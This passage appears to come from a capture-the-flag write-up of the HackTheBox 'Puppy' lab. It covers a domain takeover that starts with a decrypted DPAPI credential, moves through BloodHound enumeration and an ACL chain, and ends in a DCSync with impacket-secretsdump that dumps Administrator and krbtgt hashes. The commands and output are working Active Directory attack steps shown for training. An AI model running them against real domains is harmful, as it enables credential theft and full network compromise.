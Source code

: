 - DPAPI credential decrypted. Recovered domain privileged credential:  
    **steph.cooper_adm : FivethChipOnItsWay2025!**
    

---
## Domain Admin Takeover


### BloodHound Enumeration

```bash
bloodhound-python -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!' -d puppy.htb -ns 10.10.11.70 -c All --zip
```

![puppy_4](https://gianlucabassani.github.io/assets/puppy/puppy_4.jpg)

![puppy_5](https://gianlucabassani.github.io/assets/puppy/puppy_5.jpg)

- Analysis shows `steph.cooper_adm` has **WriteDacl**, **WriteOwner**, **GenericWrite** over `ADMINISTRATORS` group.
    
- `ADMINISTRATORS` has **AllExtendedRights** over `Administrator`.
    
- Effective control chain enables **DCSync** attack.
    

---
### DCSync Execution

```bash
impacket-secretsdump 'puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!'@10.10.11.70
```

```text
Administrator:500:...:9c541c389e2904b9b112f599fd6b333d:::
<SNIP>
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:...:bb0edc15e49ceb4120c7bd7e6e65d75b:::
krbtgt:502:...:a4f2989236a639ef3f766e5fe1aad94a:::
PUPPY.HTB\steph.cooper_adm:1111:...:ccb206409049bc53502039b80f3f1173:::
<SNIP>
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c0b23d37b5ad3de31aed317bf6c6fd1f338d9479def408543b85bac046c596c0
<SNIP>
```

- Full NTDS dump obtained.
    
- Administrator NTLM hash: **bb0edc15e49ceb4120c7bd7e6e65d75b**.

---

### Final Access as Domain Admin
